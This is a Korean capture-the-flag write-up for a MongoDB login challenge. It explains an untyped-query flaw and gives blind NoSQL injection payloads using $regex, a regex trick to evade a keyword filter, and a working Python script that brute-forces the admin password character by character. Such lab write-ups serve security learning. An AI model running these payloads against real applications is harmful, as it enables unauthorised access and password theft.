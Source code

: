 <br/><br/>

## 문제 풀이
### 취약점이 존재하는 코드
로그인 페이지를 구성하는 코드에서 MongoDB에 쿼리를 전달하는 부분을 보면 쿼리 변수의 타입을 검사하지 않고 그대로 넘겨주고 있음
```javascript
onst {uid, upw} = req.query; // 이용자가 전달한 uid와 upw를 가져옴

db.collection('user').findOne({ // user 컬랙션에서 uid, upw 검색
    'uid': uid,
    'upw': upw,
}, ...)
```
* ```string``` 외에도 다양한 형태의 ```object```도 쿼리로 전달될 수 있음

<br/><br/>

### 익스플로잇
로그인에 성공했을 시에 이용자의 ```uid```만 출력하기 때문에 ```upw```를 획득하기 위해서는 **Blind NoSQL Injection**을 사용해야 함

1. Blind NoSQL Injection Payload 생성
    - MongoDB의 ```$regex``` 연산을 사용하면 정규 표현식을 통해 데이터를 검색할 수 있음
        + ```upw```가 일치하는 경우 ```uid```, 아닌 경우 ```undefined``` 문자열이 출력되는 것을 통해 참/거짓을 확인할 수 있음
        + 입력해야 하는 Payload
            ```
            {"uid": "admin", "upw": {"$regex": ".*"}}
            ```

2. filter 우회
    - ```admin```, ```dh```, ```admi``` 문자열이 필터링하고 있음 → 정규표현식에서 임의 문자를 의미하는 ```.```을 이용하여 쉽게 우회 가능
        + uid에 ```admin``` 대신에 ```ad.in```을 입력하면 ```admin```, ```admi``` 필터링 우회 가능
        + upw에 ```DH{...}``` 대신에 ```D.{.*```를 입력하면 ```dh``` 필터링 우회 가능
    + filter 우회를 위해 입력해야 하는 Payload
        ```
        {"uid": "ad.in", "upw": {"$regex": "D.{.*"}}
        ```

3. Exploit(mango_exploit.py) 작성
    - 정규표현식을 이용해 한 글자씩 비밀번호를 알아내야 하므로 공격을 자동화하는 것이 좋음
    - 익스플로잇 스크립트
        ```python
        import requests, string

        HOST = 'http://localhost' # 접속정보의 http://host3.dreamhack.games:포트번호 입력
        ALPHANUMERIC = string.digits + string.ascii_letters # 비밀번호 문자 범위 지정
        SUCCESS = 'admin' # 성공하면 admin 문자열이 출력됨

        flag = ''
        for i in range(32):
	        for ch in ALPHANUMERIC:
		        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}') # 2번에서 작성한 payload를 사용해 요청을 전송함
		        if response.text == SUCCESS: # 쿼리가 성공이라면 해당 문자를 flag에 추가함
			        flag += ch
			        break
	        print(f'FLAG: DH{{{flag}}}')
        ```
